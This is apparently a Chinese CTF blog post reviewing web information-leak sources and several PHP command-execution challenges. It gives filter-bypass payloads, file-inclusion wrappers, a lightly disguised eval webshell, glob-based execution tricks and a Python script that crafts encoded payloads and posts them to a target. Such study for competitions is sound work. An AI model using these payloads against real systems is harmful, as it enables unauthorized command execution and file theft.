

0x00 概述
下周要参加一个比赛，可能从今天开始要进行对之前基础知识的复习了。虽然之前每次在做题的时候都会用txt文件和WORD文档进行记录，这么久就没去复习总结，感觉一些方法还是会遗忘，但是有之前记录的话应该复习起来会很快吧，希望能在一周之内能够总结完成。这里感谢提供给我参考的羽师傅和dota_st师傅，参考了二位解题的思路并进行了总结。特此感谢二位！
0x01 信息收集
对于这部分的内容我就没有进行题目的复习了，我将我之前纪录的笔记进行摘抄和总结吧。
1、源码，在做题的过程中我们常常会在源码中去寻找与题目相关的线索，如果网站不能查看源码的话可以在http://前面加上view—source:。
2、robots.txt文件泄露，这个是网站限制爬虫的文件，但是常常因为里面包含一些目录信息，所以在很多时候都可以通过这个文件进行信息收集。
3、HTTP头部信息泄露，比如说响应头里，后面要讲到攻防技巧的时候也会更新这部分的内容。
4、PHPS源码泄露，phps文件就是php的源代码文件，通常用于提供给用户（访问者）直接通过Web浏览器查看php代码的内容。
5、.git文件泄露。当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当，可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。
6、.svm文件泄露。SVN是源代码本本管理软件。使用SVN管理本地代码过程中，会生成一个名为.svn的隐藏文件夹，其中包含重要的源码信息。
7、vim缓存泄露。在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。
7.1、以 index.php 为例：第一次产生的交换文件名为 .index.php.swp。
7.2、再次意外退出后，将会产生名为 .index.php.swo 的交换文件。
7.3、第三次产生的交换文件则为 .index.php.swn。
8、cookie中隐藏信息，cookie中有可能存在一些有用的信息，有可能加密或者编码。
9、页面相关信息泄露。
10、报错页面的敏感信息泄露。
11、查看图片等媒体的链接导致物理路径泄露。
12、敏感文件的信息泄露。
13、存在可以访问的管理后台。
14、存在探针，如果权限设置不正确会导致探针失陷，造成大量信息泄露。
15、数据库外泄指的是数据库文件泄露，比如ACCESS的数据库是.mdb 以及上面提到的 .db 是SQLite的数据库。这两种数据库系统将数据保存在该格式的文件中，而数据库文件又在WEB目录下，攻击者可以下载数据库从而拿到数据。0x02 命令执行
SC 1
error_reporting(0);
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/flag/i", $c)){
eval($c);
}
}else{
highlight_file(__FILE__);
}存在eval命令执行漏洞，首先执行payload：system(“ls”)//查询当前目录下的文件，因为代码过滤掉了flag所以可以通过fla*绕过。
知识点：
* 匹配任何字符串／文本，包括空字符串；*代表任意字符（0个或多个） ls file *
? 匹配任何一个字符（不在括号内时）?代表任意1个字符 ls file 0
[abcd] 匹配abcd中任何一个字符
[a-z] 表示范围a到z，表示范围的意思 []匹配中括号中任意一个字符 ls file 0
对于linux cat和ca''t ca\t ca""t效果是相同的 这样同样可以绕过字符的限制
比如 c=system('ca\t fla\g.php');
也可以进行模糊匹配用'?'代替一些字符
比如 c=system('cat f??g.php');SC 2
error_reporting(0);
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/flag|system|php/i", $c)){
eval($c);
}
}else{
highlight_file(__FILE__);
}这里禁用掉了我们之前使用的system命令，我们可以通过echo命令来执行。注意反引号，反引号``在linux中可以进行命令执行。同样我们还有以下的函数，但是需要我们自行输出：
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() payload: echo `cat f*`; 或者 echo `cat fl’’ag.php`
SC 3
error_reporting(0);
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
eval($c);
}
}else{
highlight_file(__FILE__);
}当cat命令被过滤掉的时候我们可以使用以下命令进行代替：
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
grep
1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令：
grep test *file
strings同时这里也过滤了空格，在这种情况下我们有很多办法来进行绕过：
%09(tab)
%20(space)
cat/**/flag.txt
{cat,flag.txt}
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg
(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过)这里出现了$符号的话要进行转义因为该符号在php代码中有别的意思。
paylload: echo${IFS}`tac${IFS}f*`;或者 echo(`tac%09f*`);
“奇技淫巧”
方法一：
首先我们来看看几个php函数：
scandir(’.’): 扫描当前目录
localeconv(): 函数返回一包含本地数字及货币格式信息的数组。而数组第一项就是。
pos(),current(): 返回数组第一个值
数组操作函数：
end(): 数组指针指向最后一位
next(): 数组指针指向下一位
array_reverse(): 将数组颠倒
array_rand(): 随机返回数组的键名
array_flip()：交换数组的键和值
文件读取函数：
file_get_content()
readfile()
highlight_file()
show_source()payload:
print_r(scandir(pos(localeconv())))
show_source(next(array_reverse(scandir(pos(localeconv()))))) //这种方法的局限性在于只能拿到数组的第二位或者倒数第二位。
readfile(array_rand(array_flip(scandir(pos(localeconv()))))) //这里我们随机读取数组，需要多次重复执行，看运气吧，哈哈方法二：
首先来看几个函数：
session_start(): 告诉PHP使用session;
session_id(): 获取到当前的session_id值;这里我们运用cookie去命令执行，手动设置cookie中PHPSESSID=flag.php；因为题目是对get输入进行检测和过滤。
payload：
?c=show_source(session_id(session_start()));
cookie: PHPSESSID=flag.php方法三：
利用include或者require函数进行文件包含（使用条件服务器开启条件参数）
payload:
构造c=include$_POST[a]?>
post:a=php://filter/read=convert.base64-encode/resource=flag.php
c=?><?=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php //注意进行base64解码SC 4
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/flag/i", $c)){
include($c);
echo $flag;
}
}这里没有用到命令执行函数，而是用到了include函数。在这里我们可以使用伪data协议进行文件的读写，然后通过文件包含将文件里的php代码进行执行。
知识点：
data协议
php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码。
使用方法:data://text/plain;base64,xxxx(base64编码后的数据)或者data:text/plain,xxxx
//data伪协议只有在php<5.3且include=on时可以写木马。payload：
?c=data:text/plain,<?=system("tac fla*");?>
一句话木马payload：
?c=data:text/plain,<?php ev($_GET['hack'])?> //这里的代码我做了一下处理，因为hexo上传博客文章有病毒代码检测，这个问题搞了我很久，哈哈哈 大家就把ev看错eval吧知识点：
<? ?>和<?= ?>是短标签而<?php ?>是长标签
其中<?= 是代替 <? echo的，<? ?> 代替的是<?php ?>
当你发现你的PHP不支持使用短标签，请到PHP的安装目录下找到php.ini文件
使用Ctrl+F搜索short_open_tag
然后将等号后面的Off改成On，再重新启动Apache服务，那么短标签就会被识别了SC 5
if(isset($_POST['c'])){
$c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
eval("echo($c);");
}
}这道题它过滤了数字字母以及一大堆运算符，正好我们做题总结了一篇无数字字母绕过正则表达式的文章。
因为像异或^取反~这种运算符都被过滤掉了，所以我们使用或运算，这里我参考羽师傅的代码自己写了一个python但是后来遇到了一些代码上的小麻烦参考了一下dota_st大佬的代码：
import os
import re
import sys
import urllib.parse
import requests
url = sys.argv[1] # 输入的参数的url
operations = sys.argv[2] # 选择进行什么运算 'xor' or 'or'
# 生成我们需要用到的字符
def write_xor_rce():
contents = ''
regular = r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i'
for i in range(0, 256):
for j in range(0, 256):
if (re.match(regular, chr(i))) or (re.match(regular, chr(j))):
print(" ")
else:
k = i ^ j
if 32 <= k <= 126:
a = '%' + hex(i)[2:].zfill(2)
b = '%' + hex(j)[2:].zfill(2)
contents += (chr(k) + ' ' + a + ' ' + b + '\n')
myfile = open('xor_rce.txt', 'w', encoding='utf-8') # 如果用windows运行需要加上编码，用linux或者mac的话就不需要
myfile.write(contents)
def write_or_rce():
contents = ''
regular = r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i'
for i in range(0, 256):
for j in range(0, 256):
if (re.match(regular, chr(i))) or (re.match(regular, chr(j))):
print(" ")
else:
k = i | j
if 32 <= k <= 126:
a = '%' + hex(i)[2:].zfill(2)
b = '%' + hex(j)[2:].zfill(2)
contents += (chr(k) + ' ' + a + ' ' + b + '\n')
myfile = open('or_rce.txt', 'w', encoding='utf-8') # 如果用windows运行需要加上编码，用linux或者mac的话就不需要
myfile.write(contents)
# 将我们输入的命令到or_rce.txt文件中进行匹配
def matching(arg):
s1 = ''
s2 = ''
for i in arg:
myfile = open('or_rce.txt', 'r')
while 1:
tmp = myfile.readline()
if tmp == "":
break
if tmp[0] == i:
s1 += tmp[2:5]
s2 += tmp[6:9]
break
myfile.close()
output = "(\"" + s1 + "\"|\"" + s2 + "\")"
return output
def main():
if operations == 'or':
if not os.path.exists('or_rce.txt'):
write_or_rce()
if operations == 'xor':
if not os.path.exists('xor_rce.txt'):
write_xor_rce()
while 1:
s1 = input('\n[+] your function:')
if s1 == '' or s1 == 'quit':
break
s2 = input('[+] your command:')
arg = matching(s1) + matching(s2)
data = {
'c': urllib.parse.unquote(arg) # 对含有特殊符号的URL进行解码码
}
req = requests.post(url, data=data)
print("\n[*] result:\n" + req.text)
main()
SC 6
if(isset($_GET['c'])){
$c=$_GET['c'];
system($c." >/dev/null 2>&1");
}这里多了一个” >/dev/null 2>&1”语句，这个语句的意思是将输出和报错输出到’/dev/null’中，就是丢弃的意思。
知识点：
1：> 代表重定向到哪里，例如：echo “123” > /home/123.txt
2：在类 Unix系统中， /dev/null，或称空设备，是一个特殊的设备文件，它丢弃一切写入其中的数据
3：< 代表标准输入，在反弹shell里面经常用到，也可以写成 0<
3：2> 表示stderr标准错误
4：& 表示等同于的意思，2>&1，表示2的输出重定向等同于1
5：1 表示stdout标准输出，系统默认值是1，所以">/dev/null"等同于 “1>/dev/null”
因此，>/dev/null 2>&1 也可以写成“1> /dev/null 2> &1”
1>/dev/null ：首先表示标准输出重定向到空设备文件，也就是不输出任何信息到终端，也就是不显示任何信息。
2>&1 ： 接着，标准错误输出重定向到标准输出，因为之前标准输出已经重定向到了空设备文件，所以标准错误输出也重定向到空设备文件。绕过方法：
;
||
%0apayload:
?c=tac flag.php;SC 7
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
system($c);
}
}这道题可以用异或运算进行解题，但是我们还可以使用一些相对简单的方法
知识点：
bin为binary的简写，主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等。
我们日常直接使用的cat或者ls等等都其实是简写，例如ls完整全称应该是/bin/ls这样我们可以通过用’?’模糊查询来进行读取文件，参考一下P神的无字母数字webshell之提高篇，这篇文章有聊到当我们不知道不知道linux的文件名或者目录名的时候甚至在某些字符被过滤掉的时候，我们可以使用linux的glob通配符：
- * 可以代替0个及以上任意字符
- ? 可以代表1个任意字符
那么当我们执行/bin/base64的时候我们可以这样去执行/???/??????，前提是’?’只能匹配一个任意字符，那么问号的数量就是我们文件名或者目录名的字符数量，如果在在某个目录下同时存在两个或者多个字符数相同的文件时就会匹配到多个文件，则不会精准匹配到我们想要的，所以我们需要进行观察看它是否与其他有什么区别。
当我们拿到这道题的时候发现数字没有被过滤掉，那么我们就可以精准的匹配到/bin/base64，/???/????64。
payload：
?c = /???/????64 ????.??? // /bin/base64 flag.php知识点：
如果我们发送一个上传文件的post包，php会将我们上传的文件保存在临时的文件夹下，并且默认的文件目录是/tmp/phpxxxxxx。
文件名最后的6个字符是随机的大小写字母，而且最后一个字符大概率是大写字母。
容易想到的匹配方式就是利用？
进行匹配，即???/?????????，然而这不一定会匹配到我们上传的文件当然在P神的文章中我们可以学习一些通配符的技巧，其实跟正则有点类似，理解起来也不困难。P神不愧是大佬，看他的文章确实很涨“姿势”。